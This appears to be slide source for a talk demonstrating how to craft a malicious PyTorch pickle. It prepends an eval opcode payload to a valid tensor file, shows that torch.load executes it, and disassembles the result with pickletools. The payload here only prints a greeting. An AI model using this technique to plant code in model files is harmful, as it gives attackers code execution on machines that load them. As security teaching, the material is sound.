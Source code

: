 

---
transition: slide-left
---

# How to craft a malicious pickle
Let's consider following program

```python {0|1|2-6|8-11|13-14|all}
import torch

tensor = torch.tensor([1, 2, 3, 4, 5])
torch.save(tensor, 'good_pickle.pt', _use_new_zipfile_serialization=False)
with open('good_pickle.pt', 'rb') as f:
    good_pickle = f.read()

pickled_bomb = b'c__builtin__\neval\n(Vprint("Hello from Gregor")\ntR0'
evil_pickle = pickled_bomb + good_pickle
with open("evil_pickle.pt","wb") as f:
    f.write(evil_pickle)

result_tensor = torch.load("evil_pickle.pt", weights_only=False)
assert all(tensor == result_tensor)
```

Outputs:
```bash {0|all}
Hello from Gregor

Process finished with exit code 0
```


---
transition: slide-left
---

# Disassemble our malicious pickle
Let's consider following script
```python {0|all}
import pickletools
print(pickletools.dis(evil_pickle))
```

Outputs:
```bash {0|1|2|3|2-4|5|1-5|6|7-8|9}
    0: c    GLOBAL     '__builtin__ eval'
   18: (    MARK
   19: V        UNICODE    'print("Hello from Gregor")'
   47: t        TUPLE      (MARK at 18)
   48: R    REDUCE
   49: 0    POP
   50: \x80 PROTO      2
   52: \x8a LONG1      119547037146038801333356
   64: .    STOP
highest protocol among opcodes = 2
```
